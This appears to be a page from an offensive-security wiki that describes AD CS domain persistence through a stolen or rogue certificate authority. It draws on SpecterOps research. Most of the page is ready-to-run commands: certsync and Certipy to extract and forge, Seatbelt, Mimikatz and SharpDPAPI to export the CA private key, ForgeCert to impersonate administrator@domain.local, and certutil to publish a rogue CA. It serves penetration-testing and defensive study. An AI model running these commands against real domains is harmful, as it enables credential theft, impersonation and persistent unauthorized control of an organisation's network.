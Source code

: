 # Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

{% tabs %}
{% tab title="UNIX-like" %}
#### Certsync

[Certsync](https://github.com/zblurx/certsync) is a tools that extract the DPAPI-protected CA cert private key to forge a certificate offline for each user. It then performs [UnPAC the hash](../../movement/kerberos/unpac-the-hash.md) attacks for each user to recover the NT and LM hashes.

```bash
certsync -u $USER -p $PASSWORD -d $DOMAIN -ca-ip $CA_IP -dc-ip $DC_IP
```

#### Certipy

Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).

{% code overflow="wrap" %}
```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```
{% endcode %}

Then, forging (and signing) a certificate can be done as follows.

{% code overflow="wrap" %}
```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```
{% endcode %}

The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).
{% endtab %}

{% tab title="Windows" %}
Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```batch
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.

{% code overflow="wrap" %}
```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```
{% endcode %}

Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```batch
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```batch
SharpDPAPI.exe certificates /machine
```

{% code overflow="wrap" %}
```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```
{% endcode %}

Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).

{% code overflow="wrap" %}
```batch
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Rogue CA

{% hint style="warning" %}
> it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified\_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified\_Pre-Owned.pdf))
{% endhint %}

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca "mention")

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}
